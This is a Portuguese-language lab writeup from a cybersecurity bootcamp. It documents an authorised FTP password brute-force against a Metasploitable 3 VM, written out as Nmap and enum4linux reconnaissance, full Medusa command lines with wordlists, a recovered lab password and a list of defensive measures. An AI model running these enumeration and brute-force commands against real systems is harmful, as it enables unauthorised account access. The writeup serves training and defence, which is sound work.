


# Brute Force em FTP com Kali Linux + Medusa

> Writeup do desafio "Criando um Ataque de Brute Force de senhas com Medusa e Kali Linux"
> (Bootcamp Santander Cibersegurança do Zero à Prática — DIO).
>
> Mais do que "rodar o Medusa e achar a senha", o foco aqui é mostrar o raciocínio:
> como cheguei no usuário, por que decidi não investigar demais o serviço, e a
> sequência de erros bobos que travou o ataque antes dele funcionar.

```
┌─────────────────────────────────────────────────────────┐
│  Status    : concluído (credencial descoberta e validada)│
│  Serviço    : FTP (ProFTPD 1.3.5)                         │
│  Atacante   : Kali Linux                                  │
│  Alvo       : Metasploitable 3 (Ubuntu 14.04)             │
│  Ferramentas: Nmap, enum4linux, Netcat, Medusa            │
│  Rede        : Host-only (via WireGuard)                  │
└─────────────────────────────────────────────────────────┘
```

---

## Aviso legal

Tudo aqui foi feito em **laboratório isolado e autorizado**, com VMs minhas (Kali e Metasploitable 3) em rede host-only. Nenhum sistema de terceiros foi tocado. A ideia de aprender a atacar é justamente conseguir **defender** depois. Força bruta contra qualquer serviço sem permissão explícita é crime, então não faça isso fora de um lab que seja seu.

---

## O que é esse ataque, em uma frase

Força bruta é tentar logar repetidamente com uma lista de senhas até uma funcionar. Não tem mágica, não explora bug nenhum: é teimosia automatizada contra senha fraca. Por isso a defesa principal também é simples de enunciar e difícil de garantir: senha forte e limite de tentativas.

---

## Objetivo

Fazer um teste controlado de autenticação num serviço vulnerável, documentando o caminho inteiro:

```
[*] Reconhecimento com Nmap
[*] Enumeração de usuário
[*] Entender o mecanismo de autenticação do FTP
[*] Brute force com Medusa
[*] Validar o acesso na mão
[*] Registrar comandos, evidências e mitigação
```

Comecei pelo FTP porque foi o exemplo do treinamento e é um serviço bom pra entender o conceito (uma conexão por tentativa, resposta clara de sucesso/falha).

> O enunciado oficial cita Metasploitable 2, mas rodei em **Metasploitable 3 (Ubuntu 14.04)**. O desafio permite adaptar o ambiente, e eu já tinha o 3 montado no meu homelab.

---

## Ambiente

**Atacante — Kali Linux**
Nmap, Medusa, enum4linux, cliente FTP e Netcat já vêm de fábrica.

**Alvo — Metasploitable 3 (Ubuntu 14.04)**
```
IP          : 192.168.56.10
Conta admin : vagrant (padrão do lab)
Rede        : host-only (WireGuard)
```

Confirmei que era o alvo certo pelo enum4linux, que devolveu o banner `metasploitable3-ub1404 server (Samba, Ubuntu)`.

> A montagem completa desse laboratório (arquitetura, VMs, rede host-only via WireGuard e os passos de configuração) está documentada no meu repositório **[Homelab](https://github.com/H1ssBl1tz/Homelab)**. Se você quiser reproduzir o ambiente, corrigir algo ou tiver sugestões, fica o convite pra dar uma olhada por lá.

---

## Fase 1 — Reconhecimento e enumeração

### Nmap

Antes de bater em qualquer porta, preciso saber o que está aberto:

```bash
sudo nmap -sV -sC -p- 192.168.56.10
```

| Porta | Serviço | Detalhe |
|-------|---------|---------|
| 21/TCP | FTP | ProFTPD 1.3.5 |
| 22/TCP | SSH | identificado |
| 80/TCP | HTTP | aberto |
| 445/TCP | SMB | aberto |
| 139/TCP | NetBIOS | filtered |

FTP na 21 confirmado. É por ali que vou.

### Investigando o FTP

Primeira coisa num FTP é testar acesso anônimo, porque às vezes o login está liberado e nem precisa de ataque:

```bash
ftp 192.168.56.10
# usuário: anonymous  ->  530 Login incorrect
```

Fechado. Então fui no Netcat conversar direto com o serviço pra entender como ele responde:

```bash
nc -nv 192.168.56.10 21
USER anonymous
PASS teste@example.com    # -> 530
USER chewbacca            # -> 331 (pede a senha)
```

E aqui caí numa pegadinha que vale registrar. O `331` parece dizer "esse usuário existe, manda a senha". **Não diz.** O ProFTPD responde `331` pra praticamente qualquer nome que você jogar, justamente pra não entregar quais usuários são válidos. É um comportamento **defensivo** (anti-enumeração). Ou seja: o `331` sozinho não prova nada. Precisei achar o usuário por outro caminho.

### Enumeração via SMB

Como o FTP não entregou usuário, fui no SMB, que costuma ser mais falador:

```bash
enum4linux -a -u "" -p "" 192.168.56.10
```

Resultado útil: o usuário **`chewbacca`** apareceu. O resto das consultas bateu em `Not Found` / `Denied` e a política de senha exigiu autenticação, mas um nome real já me bastava.



Repare que o enum4linux já confirma o banner `metasploitable3-ub1404 server (Samba, Ubuntu)` e entrega o `Account: chewbacca` com o RID dele. Os shares `print$` e `public` voltaram `DENIED` sem credencial, mas o nome do usuário era tudo que eu precisava pra próxima fase.

### Confirmando o usuário no sistema

Com acesso ao terminal do Metasploitable (é meu lab, tenho o shell), confirmei que o `chewbacca` existe de verdade e tem senha:

```bash
getent passwd chewbacca
# chewbacca:x:1124:100::/home/chewbacca:/bin/bash

sudo passwd -S chewbacca
# chewbacca P 10/29/2020 0 99999 7 -1
```

Leitura disso:
- Usuário existe (UID 1124, GID 100).
- Shell válido (`/bin/bash`), o que importa pro FTP.
- Estado `P` = **senha definida** (não é conta travada nem sem senha).

Agora sim tenho um alvo concreto pro brute force.

### Um desvio no ProFTPD (e por que abandonei ele)

Fui curioso ver como o ProFTPD estava instalado e descobri que não era pacote do apt, era instalação custom:

```bash
dpkg -l | grep -i proftpd          # nada
sudo find /etc -iname '*proftpd*'  # scripts soltos em /etc/init.d, /etc/init
ps aux | grep '[p]roftpd'          # proftpd: (accepting connections)
```

O binário real estava em `/opt/proftpd/sbin/proftpd`, compilado com OpenSSL, Shadow file, PCRE e POSIX ACL (`configure-prefix=/opt/proftpd`). Interessante, mas um `grep` no `.conf` me devolveu `Permission denied` e eu ia afundar tempo nisso à toa. Segura esse pensamento, explico na próxima fase.

---

## Fase 2 — Decidindo parar de enrolar

Antes de virar engenheiro reverso da instalação do ProFTPD, parei e me perguntei: **isso importa pro objetivo?** Não importava.

O raciocínio que me fez seguir em frente:

- O ProFTPD 1.3.5 do Metasploitable autentica contra as **contas locais do Linux** (PAM / shadow). Se a conta existe e tem senha, dá pra tentar logar no FTP com ela. Ponto.
- Ficar provando "será que o chewbacca loga no FTP?" antes de rodar o Medusa é redundante, porque **o brute force já é esse teste.**
- O usuário já estava validado como existente e com senha (Fase 1).

> **Lição:** nem toda curiosidade técnica ajuda a terminar a tarefa. Entender o ProFTPD a fundo seria legal num estudo de hardening, mas no contexto de "achar a senha do chewbacca" era só distração. Saber a hora de parar de investigar é parte do método.

Decisão: ir direto pro Medusa. Como o Metasploitable usa senhas propositalmente fracas, a chance de funcionar era alta.

---

## Fase 3 — Ataque com Medusa (e a novela dos erros)

Essa foi a parte que mais ensinou, e não pelo motivo que eu esperava. O Medusa funcionou de primeira. O que me travou foi uma sequência de erros meus: de digitação, de flag trocada e de arquivo mal salvo. Vou documentar todos porque é exatamente isso que acontece na vida real.

### O comando que eu queria rodar

```bash
medusa -h 192.168.56.10 -u chewbacca -P ftp_passwds.txt -M ftp -f -t 4 -v 4
```

As flags:

| Flag | O que faz |
|------|-----------|
| `-h` | host / IP do alvo |
| `-u` | usuário **literal** (minúsculo) |
| `-U` | **arquivo** de usuários (maiúsculo) |
| `-p` | senha **literal** (minúsculo) |
| `-P` | **arquivo** de senhas (maiúsculo) |
| `-M ftp` | módulo FTP |
| `-f` | para no primeiro sucesso |
| `-t` | threads em paralelo |
| `-v` | verbosidade (0 a 6) |
| `-e ns` | testa senha vazia (`n`) e senha igual ao login (`s`) |

> **Regra de ouro das letras:** minúscula = o valor escrito ali. MAIÚSCULA = um arquivo. Trocar `-p` por `-P` (ou `-u` por `-U`) é o erro mais comum, e eu cometi os dois.

### Os erros, um por um

| # | Sintoma | Causa real | Correção |
|---|---------|-----------|----------|
| 1 | Só mostra o banner e volta pro prompt | Arquivo de senhas vazio (a pasta nem existia) | Criar a pasta e preencher o arquivo |
| 2 | Ainda só o banner, com arquivo de 7 linhas | **CRLF / caracteres invisíveis** gravados pelo editor; o `cat` normal não mostra | Recriar o arquivo com `printf` (quebra de linha Unix limpa) |
| 3 | `FATAL: Failed to open file test123` | Usei `-P test123` (maiúsculo espera arquivo) | Trocar por `-p test123` (literal) |
| 4 | Só banner, sem checagem | **IP errado** (`.20` no lugar de `.10`) | Conferir o IP |
| 5 | `ALERT: Password information must be supplied` | Rodei `-u -P ...` e esqueci o `chewbacca` depois do `-u` | Recolocar o usuário |
| 6 | Só banner | `-U chewbacca` (maiúsculo tentou abrir um arquivo chamado "chewbacca") | Usar `-u chewbacca` |
| 7 | "Parece travado" no banner | Nada quebrado: estava **rodando**. Brute force em FTP é lento, uma conexão por tentativa | Esperar. Banner + processo parado = trabalhando |

O erro 2 foi o pior, porque parecia que eu tinha feito tudo certo. O arquivo abria, o `cat` mostrava as 7 senhas bonitinhas, mas o Medusa ignorava. Era CRLF escondido do Windows/editor. Desde então, `cat -A` entrou no meu checklist (ele mostra o `^M$` que denuncia o CRLF).

### O teste que destravou tudo

Pra separar "problema de arquivo" de "problema de conexão", tirei o arquivo da jogada e testei uma senha escrita na mão:

```bash
medusa -h 192.168.56.10 -u chewbacca -p test123 -M ftp -v 6 ; echo "SAIDA: $?"
```

Saída relevante:

```text
GENERAL: Total Hosts: 1 / Total Users: 1 / Total Passwords: 1
ACCOUNT CHECK: [ftp] Host: 192.168.56.10 User: chewbacca Password: test123 (1 of 1 complete)
GENERAL: Medusa has finished.
SAIDA: 0
```

Isso provou de uma vez só três coisas: o módulo FTP carrega, a conexão com o alvo funciona e o nome `chewbacca` é aceito pelo serviço. O `test123` falhou (óbvio, era chute), mas o fluxo rodou inteiro. Conclusão: **o problema estava no meu arquivo de senhas, não na ferramenta.** Isolar variável é tudo.

### Wordlist limpa (a solução de verdade)

Parei de confiar no editor e gerei o arquivo pelo terminal, que nunca mete CRLF:

```bash
printf '%s\n' 123456 password admin welcome123 vagrant ftp123 chewbacca > ftp_passwds.txt
wc -l ftp_passwds.txt   # tem que dar 7
```

Com o arquivo limpo, o Medusa finalmente rodou o `ACCOUNT CHECK` de cada senha. Nessa primeira lista curta nenhuma bateu, e isso é um resultado válido: só significa que a senha real não estava entre elas.

### Escalando com método (do provável pro improvável)

```bash
# 1) Casos triviais de graça (senha vazia e senha = login)
medusa -h 192.168.56.10 -u chewbacca -P ftp_passwds.txt -M ftp -e ns -f -t 4 -v 4

# 2) Recorte das senhas mais comuns da rockyou
ls -lh /usr/share/wordlists/rockyou.txt*
sudo gunzip /usr/share/wordlists/rockyou.txt.gz   # se ainda estiver .gz
head -n 5000 /usr/share/wordlists/rockyou.txt > rockyou_top5k.txt
wc -l rockyou_top5k.txt                           # confirmar 5000
medusa -h 192.168.56.10 -u chewbacca -P rockyou_top5k.txt -M ftp -f -t 4 -v 4
```

A lógica de começar pequeno: wordlist curta roda em segundos e pega os casos óbvios. Só escalo pra rockyou quando o fácil falha. Jogar a rockyou inteira de cara num serviço lento é desperdício de tempo.

---

## Resultado

A senha padrão do `chewbacca` no Metasploitable 3 (edição Linux/Ubuntu) é **`rwaaaaawr8`** (na edição Windows seria `rwaaaaawr5`). Adicionando ela na wordlist, o ataque fecha:

```bash
echo 'rwaaaaawr8' >> ftp_passwds.txt
medusa -h 192.168.56.10 -u chewbacca -P ftp_passwds.txt -M ftp -f -t 4 -v 4
```

```text
ACCOUNT FOUND: [ftp] Host: 192.168.56.10 User: chewbacca Password: rwaaaaawr8 [SUCCESS]
```

### Validando na mão

Ferramenta pode mentir, então confirmei logando de verdade:

```bash
ftp 192.168.56.10
# Name: chewbacca
# Password: rwaaaaawr8
# -> 230 Login successful
```

O `230 Login successful` fecha a prova de ponta a ponta: enumeração → descoberta da credencial → acesso autenticado.



Esse print junta as duas pontas numa tela só: em cima o Medusa cospe o `ACCOUNT FOUND ... Password: rwaaaaawr8 [SUCCESS]`, e logo abaixo eu conecto na mão com `ftp` e recebo o `230 User chewbacca logged in`. A ferramenta achou e o login manual confirmou.

---

## Conceito que inverte a intuição: admin não importa pro FTP

A dúvida que mais me pegou no lab: **sendo o `chewbacca` um usuário comum (não admin), faz sentido ele logar no FTP?** Faz, e é o esperado. A confusão vem de misturar duas coisas diferentes:

- **Logar num serviço** só exige: a conta existir, a senha estar certa, ter shell válido (`RequireValidShell`) e a conta não estar na lista de negados.
- **Ser root/admin** define o que você *pode fazer* depois de logar, não *se consegue* logar.

No Metasploitable, `chewbacca`, `jabba_hutt`, `greedo` e `boba_fett` são contas comuns e perfeitamente válidas pro FTP.

E tem um detalhe que vira a lógica de cabeça pra baixo: o arquivo `/etc/ftpusers` lista quem é **proibido** de usar FTP, normalmente `root` e contas de sistema. Ou seja, ser usuário comum costuma ser **mais favorável** ao acesso FTP, não menos. Foi mais uma confirmação de que checar "privilégio de FTP" do usuário antes do ataque não fazia sentido: FTP depende de conta válida e senha certa, não de ser admin.

---

## Recomendações defensivas

A parte que importa de verdade. Todo esse ataque só funcionou por causa de senha fraca, então a defesa ataca a raiz:

| Medida | Por quê |
|--------|---------|
| Senha forte + política | Elimina senha fraca/padrão, que foi a vulnerabilidade real aqui. |
| `fail2ban` | Bloqueia o IP depois de N tentativas falhas. Mata o brute force na origem. |
| `MaxLoginAttempts` baixo | Limita tentativas por conexão no próprio ProFTPD. |
| Trocar FTP por FTPS/SFTP | FTP puro trafega credencial em texto limpo. Qualquer sniff na rede já entrega a senha. |
| `/etc/ftpusers` | Negar explicitamente contas sensíveis e de sistema. |
| Bloqueio de conta | Travar a conta temporariamente após excesso de falhas. |
| Monitoramento e alertas | Registrar e alertar picos de tentativa de login. Um ataque desses faz muito barulho no log. |
| MFA onde der | Segundo fator derruba quase todo brute force. |
| Segmentação de rede | Expor o serviço só pra redes/hosts confiáveis. |

---

## Lições aprendidas (checklist que levo pra sempre)

```
[*] Antes de todo medusa: wc -l arquivo.txt, e na dúvida cat -A (pega o ^M$ do CRLF)
[*] Medusa só mostrando o banner = fonte de senha vazia/ilegível OU host inalcançável. Não é bug.
[*] Maiúscula x minúscula importa: -u/-U e -p/-P são opostos
[*] Conferir o IP do alvo em TODA execução
[*] Brute force em FTP é lento (1 conexão por tentativa); parado no banner = rodando
[*] O 331 do FTP não confirma usuário (anti-enumeração)
[*] Saber a hora de parar de investigar um serviço e partir pro teste real
[*] Isolar variável (senha literal) quando algo não funciona, em vez de mexer em tudo ao mesmo tempo
```

---

## Estrutura do repositório

```
.
├── README.md                              # este writeup
└── images/
    ├── enum4linux_chewbacca.jpg           # usuário chewbacca achado via SMB
    └── medusa_success_ftp_login.jpg       # Medusa [SUCCESS] + 230 Login successful
```

---

## Status

| Etapa | Situação |
|-------|----------|
| Reconhecimento (Nmap) | ✅ |
| Enumeração do usuário (`chewbacca` via SMB) | ✅ |
| Validação da conta no sistema | ✅ |
| Entendimento do mecanismo de autenticação | ✅ |
| Brute force com Medusa + credencial descoberta | ✅ |
| Validação manual do acesso FTP | ✅ |
| Prints organizados em `/images` | ✅ |
| (Opcional) estender pra DVWA e password spraying em SMB | ⏳ |

Legenda: ✅ feito • 🚧 em andamento • ⏳ planejado

---

> Desafio da trilha Santander Cibersegurança (DIO). Construindo, quebrando, documentando, aprendendo.
